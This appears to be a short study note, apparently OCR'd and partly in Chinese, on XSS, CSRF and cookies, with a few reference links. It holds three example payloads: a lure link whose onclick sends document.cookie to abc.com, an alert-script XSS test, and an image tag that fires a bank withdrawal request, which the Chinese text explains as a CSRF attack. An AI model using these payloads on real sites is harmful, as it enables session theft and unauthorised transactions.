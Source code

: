 ### XSS

```
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>

<script>alert('xss appears');</script>

<img  src = "http://www.bank.com/withdraw?user=ccz&amount=23333&type=rmb&Xfor=leaf">

银行将认证信息保存在cookie中，并且cookie尚未过期，那么浏览器尝试加载该图片,将使用用户的cookie提交提款表单，从而在未经用户许可的情况下进行交易。
```



# cookie

<https://www.cnblogs.com/zhuanzhuanfe/p/8010854.html>

http://tool.oschina.net/commons?type=2

https://github.com/leaftogo/authteach



https://www.cnblogs.com/zhuanzhuanfe/p/8010854.html

<https://jwt.io/>